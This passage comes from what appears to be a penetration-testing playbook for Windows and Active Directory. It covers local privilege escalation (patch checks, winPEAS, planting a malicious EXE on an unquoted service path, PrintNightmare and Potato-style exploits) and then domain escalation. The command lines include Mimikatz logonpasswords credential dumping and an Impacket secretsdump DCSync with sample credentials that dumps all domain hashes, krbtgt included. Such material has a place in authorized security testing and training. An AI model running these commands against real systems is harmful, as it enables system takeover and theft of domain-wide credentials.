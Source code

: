 1. **Identify patch level / missing patches**

   * Check OS version and patch level (e.g., Windows Server 2016 unpatched of certain CVEs).

     ```powershell
     # On remote host via WMI
     systeminfo
     ```

2. **Check for vulnerable services or misconfigurations**

   * Look for services running as `NT AUTHORITY\SYSTEM` with weak file permissions.

     ```powershell
     # On remote shell
     whoami /priv
     winPEAS.bat  # if you can upload winPEAS for automated checks
     ```

3. **Exploit known local LPEs**

   * Examples: PrintNightmare (CVE-2021-1675, if unpatched), PetitPotam/NTLM Relay, JuicyPotato/DfsCoerce for NT AUTHORITY\SYSTEM.
   * If you find an unquoted service path:

     ```powershell
     # On remote:
     sc qc VulnerableService
     # If unquoted path, place malicious EXE at c:\Program Files\Malware\Malicious.exe
     ```

4. **Dump local hashes or extract credentials (Mimikatz)**

   * Once SYSTEM, run Mimikatz to extract plaintext creds or Kerberos tickets.

     ```powershell
     mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
     ```

---

## 8. Domain Privilege Escalation & DCSync

1. **Identify if you have Domain Replication privileges**

   * If you have a user in “Replicator” or certain groups (e.g., DCSync allows `replication-get`), perform DCSync.

     ```bash
     # Impacket’s secretsdump DCSync
     secretsdump.py CORP.LOCAL/replicator:Passw0rd!@10.10.10.5 -just-dc-cred
     ```
   * This dumps all domain hashes (including `krbtgt`).
